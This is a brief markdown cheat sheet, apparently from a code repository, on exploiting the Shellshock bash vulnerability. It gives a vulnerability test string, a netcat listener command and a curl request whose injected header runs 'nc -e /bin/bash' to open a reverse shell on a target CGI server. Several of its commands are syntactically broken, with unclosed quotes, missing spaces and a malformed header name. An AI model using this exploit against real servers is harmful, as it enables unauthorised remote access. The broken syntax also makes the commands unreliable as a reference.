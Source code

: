 # Shellshock

### Bash functions

Can be defined in "one liners"


```
$ welcome() {echo "Hi $User}
```

```
$ welcome
```

> Hi user

Can be defined in environment variables



```
$export hellofunc="() {echo "Hi $User}"

```

```
$bash -c 'hellofunc'
```

### Shellshock

> env val='() { :;}; echo vulnerable' bash -c "echo test"


### Exploit Shellshock to gain a Shell

#### Attacker machine


> netcat -nlvp 443




#### use curl send a request



> curl -H "user agent: () {:;};echo;/bin/nc -e /bin/bash [yourIPaddress] 443" [targetIPaddress]/cgi-bin/vulnerable.cgi
 





